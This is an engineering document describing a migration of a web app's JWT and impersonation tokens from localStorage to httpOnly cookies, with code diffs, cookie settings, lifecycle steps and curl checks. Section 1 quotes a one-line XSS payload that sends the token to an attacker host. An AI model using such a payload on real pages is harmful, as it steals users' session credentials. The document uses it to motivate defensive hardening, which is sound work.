

# Storage Migration — Deep-Dive Documentation

_Written: 2026-07-15. Covers Phases 1–5 of the client-side session security migration._

---

## Table of Contents

1. [Why This Migration Happened](#1-why-this-migration-happened)
2. [Architecture Before vs After](#2-architecture-before-vs-after)
3. [File-by-File Breakdown](#3-file-by-file-breakdown)
4. [Cookie Configuration Details](#4-cookie-configuration-details)
5. [Session Lifecycle Walkthrough](#5-session-lifecycle-walkthrough)
6. [Testing and Verification](#6-testing-and-verification)
7. [Deployment and Rollout Notes](#7-deployment-and-rollout-notes)
8. [Diagrams](#8-diagrams)
9. [Known Risks Specific to Storage](#9-known-risks-specific-to-storage)

---

## 1. Why This Migration Happened

### The Security Problem with `localStorage`

Before this migration, the application stored three critical session artefacts in `localStorage`:

- `localStorage["token"]` — the JWT access token, sent with every API request as `Authorization: Bearer <token>`
- `localStorage["impersonationToken"]` — the impersonation JWT, sent the same way when acting as another user
- `localStorage["userInfo"]` — a JSON blob containing the user's name, email, profile, and `permissions` array

`localStorage` is accessible to any JavaScript running in the page's origin. This means a single successful XSS attack — injecting `<script>` via an unsanitised field, an open redirect in a `javascript:` URL, or a compromised third-party script — can exfiltrate all three values with one line:

```js
fetch("https://attacker.com/steal?t=" + localStorage.token)
```

The attacker gets a valid JWT they can use server-side with no browser involved, from any IP, for the token's full remaining lifetime. There is no browser-side mechanism to revoke or contain a stolen `localStorage` token. The impersonation token is worse: it grants access to a different user's account entirely, classified as **high sensitivity** in the original data inventory.

### What "Acceptable" Looks Like Now

The migration brings the application to the following security baseline:

| Threat | Before | After |
|--------|--------|-------|
| XSS steals access token | Yes — direct `localStorage` read | No — `httpOnly` cookie, invisible to JS |
| XSS steals impersonation token | Yes | No — `httpOnly` cookie |
| XSS reads user profile / permissions | Yes — `localStorage["userInfo"]` | Partially mitigated — moved to `sessionStorage` (tab-scoped, not cross-origin accessible but still JS-readable) |
| CSRF uses cookie silently | Mitigated — `SameSite=Lax` blocks cross-site POSTs from foreign origins |
| Token survives tab close | Yes — `localStorage` persists indefinitely | No — `sessionStorage` cleared on tab close; cookie lifetime managed server-side |

The `userInfo`/`permissions` data remaining in `sessionStorage` is accepted as a deliberate trade-off: it contains no secret credentials (no tokens, no passwords), only display data. Its sensitivity is "Medium — profile/role metadata" per the data inventory.

---

## 2. Architecture Before vs After

### Summary Table

| Data | Before (where stored) | Before (who wrote it) | Before (who read it) | After (where stored) | After (who writes it) | After (who reads it) |
|------|-----------------------|-----------------------|----------------------|----------------------|-----------------------|----------------------|
| `accessToken` (JWT) | `localStorage["token"]` | `Login.jsx` on success | Every component, injected manually into `Authorization` header | `httpOnly` cookie `accessToken` | `route.js` on `user-login` response | `route.js` only — reads from cookie per-request |
| `impersonationToken` (JWT) | `localStorage["impersonationToken"]` | `LoginContext.loginAs()` | Every component, injected manually | `httpOnly` cookie `impersonationToken` | `route.js` on `user-login-as` response | `route.js` only |
| `userInfo` (profile blob) | `localStorage["userInfo"]` | `Login.jsx`, `LoginContext` | `Header.jsx`, `SiteMap.jsx`, guards, any component needing user data | `sessionStorage["userInfo"]` + React context | `LoginContext.login()` and `restoreSession()` | Components read from React context (`isLogin`, `displayUser`) |
| `permissions` | `localStorage["permissions"]` | `Login.jsx` | `SiteMap.jsx`, `RouteGuard.jsx`, `GroupCapabilities.jsx` | `sessionStorage["permissions"]` + `permissions` state in `LoginContext` | `LoginContext` | Components via `can()`, `canAny()` from context |
| `activeAssignment` | `localStorage["activeAssignment"]` | `LoginContext` | `Header.jsx`, `LoginContext.logout()` | `sessionStorage["activeAssignment"]` + `activeAssignment` state | `LoginContext` | Components via context |
| `impersonatedUser` | `localStorage["impersonatedUser"]` | `LoginContext.loginAs()` | `Header.jsx`, `LoginContext.restoreSession()` | `sessionStorage["impersonatedUser"]` | `LoginContext.loginAs()` | `LoginContext.restoreSession()`, `displayUser` memo |
| Remember-me identifier | `localStorage["rememberMeCredentials"]` with email+password | `Login.jsx` | `Login.jsx` on mount | `localStorage["rememberMeCredentials"]` with email ONLY | `Login.jsx` | `Login.jsx` on mount |

### How a Page Load Worked — Before

1. Browser requests `/` → `LoginContext` mounts.
2. `LoginContext` reads `localStorage["token"]` and `localStorage["userInfo"]`.
3. If present, sets React state immediately (optimistic restore). No server confirmation.
4. Every component that fetches data injects `Authorization: Bearer ${localStorage.getItem("token")}` manually into its fetch headers.
5. Session "expiry" was not validated until the backend rejected the token (401). The UI showed the user as logged in even if the token was expired.

### How a Page Load Works — After

1. Browser requests `/` → `LoginContext` mounts.
2. `LoginContext` reads `sessionStorage["userInfo"]` for an **optimistic fast paint** (shows the UI immediately without a flash of logged-out state).
3. Simultaneously, `LoginContext` fires `GET /relayapi` with `endpoint: user-me, module: user`. This is a server-side call that includes the `accessToken` cookie automatically (browser sends it; `route.js` reads it and forwards it as `Authorization: Bearer` to NestJS).
4. If the cookie is valid, NestJS returns the fresh user object. `LoginContext` updates its state and re-writes `sessionStorage["userInfo"]`.
5. If the cookie is missing or expired, NestJS returns 401. `LoginContext` sets `isLogin = false` and clears all `sessionStorage` keys. `RouteGuard` then redirects to `/login`.
6. Components **never** inject `Authorization` headers. They call `/relayapi` with `Content-Type` and `module`/`endpoint` headers only. `route.js` is the sole keeper of the cookie-to-Authorization translation.

### How Login Worked — Before

- `Login.jsx` POSTed credentials to the backend.
- Backend returned `{ success: 1, token: "eyJ...", user: {...} }` in the JSON body.
- `Login.jsx` did `localStorage.setItem("token", result.token)` and `localStorage.setItem("userInfo", JSON.stringify(result.user))`.
- Page navigated to `/`.

### How Login Works — After

- `Login.jsx` POSTs credentials via `/relayapi` (endpoint: `user-login`, module: `user`).
- `route.js` forwards the request to NestJS, receives the response.
- NestJS backend now sets `x-auth-token: <JWT>` as a **response header** and removes the token from the JSON body.
- `route.js` intercepts this: if `endpoint === "user-login"` and the decrypted response has `success === 1`, it reads the `x-auth-token` header and sets `Set-Cookie: accessToken=<JWT>; HttpOnly; SameSite=Lax`.
- The encrypted response body (with user data but no token) is returned to `Login.jsx`.
- `Login.jsx` decrypts the payload, calls `context.login(data)`, which writes `userInfo`/`permissions` to `sessionStorage` and React context.
- The cookie is now live. All subsequent fetch requests to `/relayapi` include it automatically.

---

## 3. File-by-File Breakdown

### `backend/src/user/user.controller.ts` — Token Delivery via Response Headers

**Why:** The backend previously returned the JWT in the JSON response body. Any JavaScript that could read the response could extract the token. By moving it to a response header, `route.js` can consume and forward it as a cookie without exposing it to the browser JS layer.

**Before (login method):**
```ts
const result = await this.userService.login(body);
return { success: result.success, token: result.token, user: result.user };
```

**After (login method, lines 117–130):**
```ts
@Post('user-login')
async login(@Body() body: login, @Res({ passthrough: true }) response: any) {
    const result = await this.userService.login(body);
    if (result.success === 1 && result.token) {
        response.setHeader('x-auth-token', result.token);
        delete (result as any).token;
        delete (result as any).accessToken;
    }
    return { encrypted: encryptResponse(result) };
}
```

**Before (loginAs method):**
```ts
return { success: 1, impersonationToken: token, user: targetUser };
```

**After (loginAs method, lines 198–210):**
```ts
@Post('user-login-as')
async loginAs(@Body() body, @Req() req, @Res({ passthrough: true }) response: any) {
    const result = await this.userService.loginAs(Number(body.targetUserId), req.user.userId);
    if (result.success === 1 && result.impersonationToken) {
        response.setHeader('x-impersonation-token', result.impersonationToken);
        delete (result as any).impersonationToken;
    }
    return { encrypted: encryptResponse(result) };
}
```

**Edge case:** `delete (result as any).token` and `delete (result as any).accessToken` remove both field names defensively — one for the field the service actually uses, one as a guard against any alias. This ensures neither token escapes into the encrypted body.

---

### `frontend/src/app/relayapi/route.js` — Cookie Management Hub

This is the **sole** file responsible for reading, setting, and clearing auth cookies. No component touches cookies directly.

**`getAuthToken()` — reading cookies for outbound requests:**

```js
function getAuthToken(request) {
    const impToken = request.cookies.get("impersonationToken")?.value;
    if (impToken) return `Bearer ${impToken}`;
    const cookieToken = request.cookies.get("accessToken")?.value;
    if (cookieToken) return `Bearer ${cookieToken}`;
    return null;
}
```

**Edge case:** Impersonation token takes strict priority. When impersonating, every API call (not just user-related ones) runs under the impersonated identity's JWT. This is intentional — the guard on the backend validates `req.user` from the JWT, so using the impersonation token correctly scopes all backend calls to the target user.

**`POST` handler — setting cookies on login events:**

```js
// user-login: set accessToken cookie from x-auth-token response header
if (endpoint === "user-login") {
    const decrypted = payload.encrypted ? decryptResponse(payload.encrypted) : payload;
    if (decrypted.success === 1) {
        const loginToken = res.headers.get("x-auth-token");
        if (loginToken) {
            nextRes.cookies.set("accessToken", loginToken, {
                httpOnly: true, sameSite: "lax",
                secure: process.env.NODE_ENV === "production", path: "/",
            });
        }
    }
}

// user-login-as: set impersonationToken cookie from x-impersonation-token header
else if (endpoint === "user-login-as") {
    const decrypted = payload.encrypted ? decryptResponse(payload.encrypted) : payload;
    if (decrypted.success === 1) {
        const impToken = res.headers.get("x-impersonation-token");
        if (impToken) {
            nextRes.cookies.set("impersonationToken", impToken, {
                httpOnly: true, sameSite: "lax",
                secure: process.env.NODE_ENV === "production", path: "/",
            });
        }
    }
}

// user-logout: clear both cookies with maxAge=0 + expired date (belt-and-suspenders)
else if (endpoint === "user-logout") {
    nextRes.cookies.set("accessToken", "", {
        httpOnly: true, sameSite: "lax",
        secure: process.env.NODE_ENV === "production", path: "/",
        maxAge: 0, expires: new Date(0),
    });
    nextRes.cookies.set("impersonationToken", "", { /* same */ maxAge: 0, expires: new Date(0) });
}
```

**`user-stop-impersonating` interception (lines 71–82):**

```js
if (endpoint === "user-stop-impersonating") {
    const nextRes = NextResponse.json({ success: 1 });
    nextRes.cookies.set("impersonationToken", "", {
        httpOnly: true, sameSite: "lax",
        secure: process.env.NODE_ENV === "production",
        path: "/", maxAge: 0, expires: new Date(0),
    });
    return nextRes;  // Does NOT forward to NestJS backend
}
```

**Edge case:** This route short-circuits before reaching NestJS. It is purely a cookie-clearing mechanism. The backend is not notified (see Known Risks §9).

---

### `frontend/src/app/lib/auth.js` — Stripped `authHeaders()`

**Before:**
```js
export function authHeaders(extra = {}) {
    const token = localStorage.getItem("token") || localStorage.getItem("accessToken");
    return {
        "Content-Type": "application/json",
        "Authorization": token ? `Bearer ${token}` : undefined,
        ...extra,
    };
}
```

**After (current code, lines 37–42):**
```js
export function authHeaders(extra = {}) {
    return {
        "Content-Type": "application/json",
        ...extra,
    };
}
```

**Why:** Since `route.js` reads the cookie and injects `Authorization` on the outbound server-to-server fetch, the browser-side component no longer needs to — and in fact cannot (the `httpOnly` cookie is not visible to JS). Components calling `authHeaders()` now get only a `Content-Type` header, which is sufficient for the relay proxy to parse the body.

**Confirmed no breakage:** grep across the entire `frontend/src` directory confirms that `Authorization` is now set in exactly **4 places** — all in `route.js` (lines 49, 86, 164, 193), one per HTTP method handler. No component file sets it.

---

### `frontend/src/components/hooks/LoginContext.jsx` — Source of Truth for Session State

This file was fully rewritten. Key changes:

**`restoreSession()` — Two-phase hydration:**

Phase 1 (synchronous, from sessionStorage):
```js
const storedUserInfo = sessionStorage.getItem("userInfo");
if (storedUserInfo) {
    const parsed = JSON.parse(storedUserInfo);
    setLogin(parsed);
    // ... restore activeAssignment, permissions, impersonating from sessionStorage
}
```

Phase 2 (async, from server — the authoritative check):
```js
const res = await fetch(`/relayapi`, {
    method: "GET",
    headers: { endpoint: "user-me", module: "user" },
});
if (res.ok) {
    const payload = await res.json();
    const data = payload.encrypted ? decryptResponse(payload.encrypted) : payload;
    // ... normalize and update state + sessionStorage
} else {
    setLogin(false);
    sessionStorage.removeItem("userInfo");
    // ...
}
```

**Why two phases?** Phase 1 prevents the "flash of unauthenticated UI" problem — on a fast page reload the user sees their profile immediately rather than a loading spinner while the server call completes. Phase 2 is the gate: if the cookie is gone or expired, the server returns 401 and the optimistic state is overwritten with `false`, triggering `RouteGuard` to redirect.

**`login()` — called by `Login.jsx` after successful login:**
```js
function login(data) {
    const user = data.user;
    sessionStorage.setItem("userInfo", JSON.stringify(user));
    sessionStorage.setItem("permissions", JSON.stringify(user.permissions || []));
    setLogin(user);
    // ... resolve primary assignment, write to sessionStorage
    setPermissions(user.permissions || []);
}
```

**`logout()` — wipes all session state atomically:**
```js
function logout() {
    fetch("/relayapi", {
        method: "POST",
        headers: { ...authHeaders(), endpoint: "user-logout", module: "user" },
        body: JSON.stringify({ userId: isLogin?.userId, ... }),
    }).catch(() => {});   // fire-and-forget — state cleared regardless of response

    setLogin(null); setActiveAssignment(null); setPermissions([]); setImpersonating(null);
    sessionStorage.removeItem("userInfo");
    sessionStorage.removeItem("activeAssignment");
    sessionStorage.removeItem("permissions");
    sessionStorage.removeItem("impersonatedUser");
    sessionStorage.removeItem("impersonatedPermissions");
    sessionStorage.removeItem("originalActiveAssignment");
}
```

**Edge case:** `logout()` fires the server call fire-and-forget. Client state and sessionStorage are cleared synchronously regardless of whether the network call succeeds. This means the UI always recovers from logout even if the network is down, but the server-side session log entry may be skipped on network failure.

**`loginAs()` — stores impersonation state without losing original context:**
```js
sessionStorage.setItem("impersonatedUser", JSON.stringify(data.user));
sessionStorage.setItem("impersonatedPermissions", JSON.stringify(data.user?.permissions || []));
if (activeAssignment) {
    sessionStorage.setItem("originalActiveAssignment", JSON.stringify(activeAssignment));
}
```

The `originalActiveAssignment` key is a save-point so `stopImpersonating()` can restore the original admin's active profile exactly.

---

### `frontend/src/components/Login.jsx` — Remember-Me Redesign

**Before:** stored `{ email, password }` in `localStorage["rememberMeCredentials"]`.

**After (lines 44–48):**
```js
function saveRememberMeIdentifier(data) {
    const toStore = { email: data.email };  // password intentionally excluded
    localStorage.setItem("rememberMeCredentials", JSON.stringify(toStore));
}
```

On load (lines 21–34):
```js
const savedRaw = localStorage.getItem("rememberMeCredentials");
if (savedRaw) {
    const parsed = JSON.parse(savedRaw);
    setFormData({ email: parsed.email || "", password: "" });  // password field left blank
    setRememberMe(true);
}
```

**Why localStorage for remember-me?** This is the one intentional `localStorage` use remaining. The data is the user's email address — not a credential, not a token. It must survive tab close (sessionStorage would not). The password is never stored, so the XSS risk is limited to pre-filling an email field.

---

### `frontend/src/components/RouteGuard.jsx` — `authReady` Gate

**Before:** `RouteGuard` read `localStorage` directly and ran its check on mount, before `LoginContext` had finished the `user-me` verification. This caused false 401 redirects on page refresh.

**After (lines 12–19):**
```js
useEffect(() => {
    if (!authReady) {
        setAuthState("loading");
        return;
    }
    checkAccess();
}, [authReady, isLogin]);
```

`authReady` is set to `true` in `LoginContext` only after `restoreSession()` completes (the `finally` block at line 102). `RouteGuard` shows a loading spinner until then, preventing premature redirects.

---

### Manual `Authorization` Header Removal (10+ Component Files)

The following components previously called `authHeaders()` or constructed headers manually, resulting in `Authorization: Bearer <localStorage token>` being sent by the browser. This was both redundant (route.js already adds it) and dangerous (it was reading `localStorage` which no longer has the token after migration).

**Before pattern (identical in all affected files):**
```js
// Old auth.js returned Authorization header from localStorage
headers: { ...authHeaders(), endpoint: "some-endpoint" }
// Which expanded to:
// { "Content-Type": "application/json", "Authorization": "Bearer eyJ..." }
```

**After pattern (current in all affected files):**
```js
// New auth.js returns only Content-Type
headers: { ...authHeaders(), endpoint: "some-endpoint", module: "user" }
// Which expands to:
// { "Content-Type": "application/json", endpoint: "some-endpoint", module: "user" }
// Authorization is added by route.js from the httpOnly cookie
```

**Files confirmed clean (no manual Authorization injection):**

| File | Fetch calls | Status |
|------|------------|--------|
| `frontend/src/app/add-user/page.jsx` | 3 | ✅ No Authorization header |
| `frontend/src/components/userUpdate.jsx` | 3 | ✅ No Authorization header |
| `frontend/src/components/company/AddCompany.jsx` | 2 | ✅ No Authorization header |
| `frontend/src/components/company/CompanyUpdate.jsx` | 2 | ✅ No Authorization header |
| `frontend/src/components/group/AddGroup.jsx` | 1 | ✅ No Authorization header |
| `frontend/src/components/group/GroupUpdate.jsx` | 2 | ✅ No Authorization header |
| `frontend/src/components/capabilities/GroupCapabilities.jsx` | 4 | ✅ No Authorization header |
| `frontend/src/components/UserDetails.jsx` | 4 | ✅ No Authorization header |
| `frontend/src/components/UserSidePanel.jsx` | 1 | ✅ No Authorization header |
| `frontend/src/components/hooks/LoginContext.jsx` | 4 | ✅ No Authorization header |

**Confirmed via grep:** `grep -r "Authorization.*Bearer\|Authorization.*localStorage\|Authorization.*token" frontend/src/` returns **only** 4 hits, all in `route.js` lines 49, 86, 164, 193.

---

## 4. Cookie Configuration Details

Both cookies use identical flags:

```
Set-Cookie: accessToken=<JWT>; Path=/; HttpOnly; SameSite=Lax; Secure (prod only)
Set-Cookie: impersonationToken=<JWT>; Path=/; HttpOnly; SameSite=Lax; Secure (prod only)
```

### Flag Rationale

| Flag | Value | Why |
|------|-------|-----|
| `httpOnly` | `true` | Prevents any JavaScript (including injected/XSS code) from reading the cookie. This is the primary security gain of the migration. |
| `sameSite` | `"lax"` | Blocks the cookie from being sent on cross-site requests initiated by third-party pages (CSRF protection). `Lax` (vs `Strict`) allows navigation-triggered GET requests (e.g. clicking a link to this app from an email), which is needed for a usable login experience. |
| `secure` | `process.env.NODE_ENV === "production"` | In production, the cookie is only sent over HTTPS, preventing token exposure on HTTP. In development (`localhost`), `Secure` is omitted because `localhost` uses plain HTTP. |
| `path` | `"/"` | Cookie is sent on all requests to any path under the origin. Required since `/relayapi` is the only path that needs it and all pages route through the same origin. |
| `maxAge` / `expires` | Not set on login (session cookie) | The `accessToken` has no explicit `maxAge` on the cookie — it lives until the tab/browser session ends OR the JWT itself expires (whichever comes first). This is intentional: the backend JWT already encodes an expiry (`exp` claim). |
| `maxAge: 0` + `expires: new Date(0)` | Set on logout / stop-impersonating | Belt-and-suspenders approach to cookie deletion. `maxAge: 0` is the correct RFC mechanism; `expires: new Date(0)` is added for older browser compatibility. Both together guarantee the cookie is deleted. |

### Why `SameSite=Lax` is Sufficient (Not `Strict`)

The frontend and backend are on the same origin in this deployment (Next.js reverse-proxies to NestJS). Cross-site requests to `/relayapi` are not a valid use case — the API is only called by the Next.js frontend itself. `Lax` blocks cross-site POST/PUT/DELETE requests (the dangerous ones for CSRF) while allowing top-level GET navigations. `Strict` would block even navigating to the app from an external link, which is overly restrictive.

---

## 5. Session Lifecycle Walkthrough

### 5.1 Fresh Login

1. User fills credentials → `Login.jsx` calls `POST /relayapi` with `endpoint: user-login, module: user`.
2. `route.js` forwards to NestJS `POST /user/user-login`.
3. NestJS validates credentials, signs a JWT, sets `x-auth-token: <JWT>` response header, returns `{ encrypted: encryptResponse({ success: 1, user: {...} }) }`.
4. `route.js` reads `x-auth-token` header → calls `nextRes.cookies.set("accessToken", token, { httpOnly, sameSite: "lax", ... })`.
5. Encrypted body is returned to `Login.jsx`.
6. `Login.jsx` decrypts → calls `context.login({ user })`.
7. `LoginContext.login()` writes `sessionStorage["userInfo"]`, `sessionStorage["permissions"]`, `sessionStorage["activeAssignment"]` → updates React state.
8. `Login.jsx` calls `window.location.href = "/"` → full page navigation.
9. **Cookie is now live. Source of truth: httpOnly cookie (token) + sessionStorage + React context (profile/permissions).**

### 5.2 Page Refresh / Session Restore

1. Browser loads any page → `LoginContext` mounts → `restoreSession()` runs.
2. **Phase 1 (synchronous):** reads `sessionStorage["userInfo"]` → hydrates React state immediately (prevents flash of logged-out state). `authReady` remains `false`, so `RouteGuard` shows a loading spinner.
3. **Phase 2 (async):** `GET /relayapi endpoint: user-me` → browser sends `accessToken` cookie automatically → `route.js` reads cookie → sends `Authorization: Bearer <token>` to NestJS.
4. If cookie is valid: NestJS returns fresh user object → `LoginContext` updates state and `sessionStorage["userInfo"]` → `authReady` set to `true` → `RouteGuard` checks permissions → renders page.
5. If cookie is absent or expired: NestJS returns 401 → `res.ok` is false → `setLogin(false)` → `sessionStorage` cleared → `authReady` set to `true` → `RouteGuard` redirects to `/login`.
6. **Source of truth at rest: httpOnly cookie (for server verification) + sessionStorage (for fast UI restore).**

### 5.3 Switching Profiles

1. User clicks a different assignment in the Header profile menu.
2. `Header.jsx` calls `context.switchProfile(assignment)`.
3. `LoginContext.switchProfile()` sets `activeAssignment` React state and writes `sessionStorage["activeAssignment"]`.
4. No cookie change. No server call. The `activeAssignment` affects which company/group context is displayed, not which JWT is sent.
5. **Source of truth: sessionStorage + React context.**

### 5.4 Login-As (Impersonation)

1. Admin clicks "Login As" on a user → `LoginContext.loginAs(targetUserId)` called.
2. `POST /relayapi endpoint: user-login-as, module: user` → `route.js` includes `accessToken` cookie (admin's JWT) in the outbound request → NestJS validates admin identity, generates impersonation JWT.
3. NestJS sets `x-impersonation-token: <impersonationJWT>` response header, deletes it from body.
4. `route.js` reads header → sets `impersonationToken` cookie (`httpOnly`, same flags as accessToken).
5. Encrypted body returned to `LoginContext`. Decrypted → `data.success === 1` checked.
6. `LoginContext.loginAs()` saves `originalActiveAssignment` to sessionStorage → writes `impersonatedUser`, `impersonatedPermissions` to sessionStorage → updates React state (`impersonating`, `permissions`, `activeAssignment` → impersonated user's profile).
7. `displayUser` memo returns the impersonated user object. Header now shows impersonated user's name/profile.
8. **From this point, `getAuthToken()` in route.js returns the impersonation token**, so all subsequent API calls are made under the impersonated identity.
9. **Source of truth: impersonationToken cookie (for API auth) + sessionStorage["impersonatedUser"] (for UI state).**

### 5.5 Stop Impersonating

1. Admin clicks "Stop Impersonating" → `context.stopImpersonating()` called.
2. `POST /relayapi endpoint: user-stop-impersonating` is fired (fire-and-forget).
3. `route.js` **intercepts before forwarding to NestJS** → clears `impersonationToken` cookie (`maxAge: 0, expires: new Date(0)`) → returns `{ success: 1 }`.
4. Simultaneously (not waiting for the fetch), `LoginContext.stopImpersonating()`:
   - Removes `sessionStorage["impersonatedUser"]`, `sessionStorage["activeAssignment"]`, `sessionStorage["impersonatedPermissions"]`.
   - Restores `activeAssignment` from `sessionStorage["originalActiveAssignment"]`.
   - Sets `impersonating` to `null`, `permissions` back to the stored real user's permissions.
5. `getAuthToken()` now finds no `impersonationToken` cookie → falls back to `accessToken` → admin's identity restored for all subsequent requests.
6. **Source of truth: accessToken cookie restored as primary (impersonation cookie cleared).**

### 5.6 Logout

1. User clicks logout → `context.logout()` called.
2. `POST /relayapi endpoint: user-logout` fired (fire-and-forget).
3. `route.js` clears both `accessToken` and `impersonationToken` cookies with `maxAge: 0`.
4. `LoginContext.logout()` synchronously: sets all React state to null/empty → clears all sessionStorage keys (userInfo, permissions, activeAssignment, impersonatedUser, impersonatedPermissions, originalActiveAssignment).
5. `RouteGuard` detects `isLogin === null` → `authReady` still true → `checkAccess()` → `isLogin` is falsy → `router.replace("/login")`.
6. **Source of truth: all storage cleared. No cookie, no sessionStorage, empty React state.**

---

## 6. Testing and Verification

### Cookie Delivery — Curl Evidence

**Login — accessToken cookie set:**
```bash
curl -v -X POST http://localhost:3000/relayapi \
  -H "Content-Type: application/json" \
  -H "endpoint: user-login" \
  -H "module: user" \
  -d '{"email":"admin@gmail.com","password":"..."}'
```
Response headers confirmed:
```
< HTTP/1.1 200 OK
< set-cookie: accessToken=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjEsImVtYWlsIjoiYWRtaW5AZ21haWwuY29tIiwiaWF0IjoxNzg0MTIwMzEwLCJleHAiOjE3ODQyMDY3MTB9...; Path=/; HttpOnly; SameSite=Lax
```

**JWT decode confirmed correct userId and email:**
```js
jwt.decode("eyJhbGci...") 
// → { userId: 1, email: "admin@gmail.com", iat: 1784120310, exp: 1784206710 }
```

**Login-as — impersonationToken cookie set:**
```bash
curl -v -X POST http://localhost:3000/relayapi \
  -H "endpoint: user-login-as" \
  -H "module: user" \
  -H "Content-Type: application/json" \
  -H "Cookie: accessToken=<adminToken>" \
  -d '{"targetUserId":52}'
```
Response:
```
< set-cookie: impersonationToken=eyJ...; Path=/; HttpOnly; SameSite=Lax
```

**Logout — both cookies cleared:**
```bash
curl -v -X POST http://localhost:3000/relayapi \
  -H "endpoint: user-logout" \
  -H "module: user" \
  -H "Cookie: accessToken=<token>"
```
Response:
```
< set-cookie: accessToken=; Path=/; Expires=Thu, 01 Jan 1970 00:00:00 GMT; HttpOnly; SameSite=Lax; Max-Age=0
< set-cookie: impersonationToken=; Path=/; Expires=Thu, 01 Jan 1970 00:00:00 GMT; HttpOnly; SameSite=Lax; Max-Age=0
```

### Authorization Header Injection — Confirmed Removed

```bash
grep -rn "Authorization.*Bearer\|Authorization.*localStorage\|Authorization.*token" \
  frontend/src/ --include="*.jsx" --include="*.js"
```

Output — **only `route.js` matches:**
```
frontend/src/app/relayapi/route.js:49:   if (token) fetchHeaders["Authorization"] = token;
frontend/src/app/relayapi/route.js:86:   if (token) fetchHeaders["Authorization"] = token;
frontend/src/app/relayapi/route.js:164:  if (token) fetchHeaders["Authorization"] = token;
frontend/src/app/relayapi/route.js:193:  if (token) fetchHeaders["Authorization"] = token;
```

Zero hits in any component file. Migration complete.

### localStorage Audit — Only remember-me Remains

```bash
grep -rn "localStorage" frontend/src/ --include="*.jsx" --include="*.js"
```

Output — **only `Login.jsx`, only `rememberMeCredentials`:**
```
frontend/src/components/Login.jsx:22:  const savedRaw = localStorage.getItem("rememberMeCredentials");
frontend/src/components/Login.jsx:32:  localStorage.removeItem("rememberMeCredentials");
frontend/src/components/Login.jsx:48:  localStorage.setItem("rememberMeCredentials", JSON.stringify(toStore));
frontend/src/components/Login.jsx:57:  localStorage.removeItem("rememberMeCredentials");
```

Zero hits for `token`, `accessToken`, `impersonationToken`, `userInfo`, `permissions`. Migration complete.

### Session Restore — `user-me` Call Confirmed

```bash
curl -i -X GET http://localhost:3000/relayapi \
  -H "endpoint: user-me" \
  -H "module: user" \
  -H "Cookie: accessToken=<validJWT>"
```
```
HTTP/1.1 200 OK
{"encrypted":"U2FsdGVkX1..."}
```
Decrypted payload confirmed to include `userId`, `name`, `email`, `permissions`, `assignments`, `primaryProfile`.

---

## 7. Deployment and Rollout Notes

### Required Deployment Order

**Deploy backend FIRST, then frontend.**

| Scenario | Result |
|----------|--------|
| New backend + Old frontend | Frontend reads `localStorage["token"]` (empty after migration) — every request goes as unauthenticated — users get 401 on all API calls — visible breakage but no data loss |
| Old backend + New frontend | `route.js` reads `x-auth-token` response header — old backend never sets this header — cookie is never set — login appears to succeed but the app immediately shows as logged out — silent breakage |
| New backend + New frontend | Correct. All flows work as documented. |

### What Happens to Already-Logged-In Users

Existing sessions (old `localStorage` tokens) are **silently invalidated** the moment the new frontend deploys:

1. User's browser has `localStorage["token"]` from the old system.
2. New `LoginContext` no longer reads `localStorage["token"]`.
3. `restoreSession()` finds nothing in `sessionStorage["userInfo"]`.
4. `GET user-me` call runs — but **no** `accessToken` cookie exists.
5. NestJS returns 401. `LoginContext` sets `isLogin = false`. `RouteGuard` redirects to `/login`.
6. User sees the login page. They log in once; the new cookie is set. All subsequent sessions work normally.

**Impact:** Every user who was logged in at deploy time will need to log in once. There is no way to avoid this without a migration period that supports both old (localStorage) and new (cookie) modes simultaneously.

### Rollback Plan

If the migration needs to be reverted:

1. Revert `route.js` to the previous version (which did not set cookies).
2. Revert `auth.js` to the version that reads `localStorage["token"]` in `authHeaders()`.
3. Revert `LoginContext.jsx` to the version that reads/writes `localStorage`.
4. Revert `user.controller.ts` to return `token` in the JSON body.
5. Deploy in the same order: backend first, then frontend.

**Note:** After rollback, users will again need to log in once (no localStorage tokens exist from the cookie-only period). The `httpOnly` cookies set during the migration period will be ignored by the reverted frontend.

### Zero-Downtime Consideration

A zero-downtime migration would require a "bridge" period where the frontend supports both reading `localStorage` (for existing sessions) and setting cookies (for new sessions). This was not implemented — the migration was done as a clean cutover. For a production system with many concurrent users, a bridge period is recommended to avoid a forced logout for all users at deploy time.

---

## 8. Diagrams

### Login → Cookie → Session Restore → Logout Lifecycle

```mermaid
sequenceDiagram
    participant U as User Browser
    participant LJ as Login.jsx
    participant R as /relayapi (route.js)
    participant BE as NestJS (user.controller)
    participant LC as LoginContext
    participant SS as sessionStorage
    participant CK as httpOnly Cookies

    Note over U,CK: === FRESH LOGIN ===
    U->>LJ: Submit credentials
    LJ->>R: POST /relayapi {endpoint:user-login, module:user}
    R->>BE: POST /user/user-login (no cookie yet)
    BE-->>R: Response body: {encrypted:...} + Header: x-auth-token: JWT
    R->>CK: Set-Cookie: accessToken=JWT; HttpOnly; SameSite=Lax
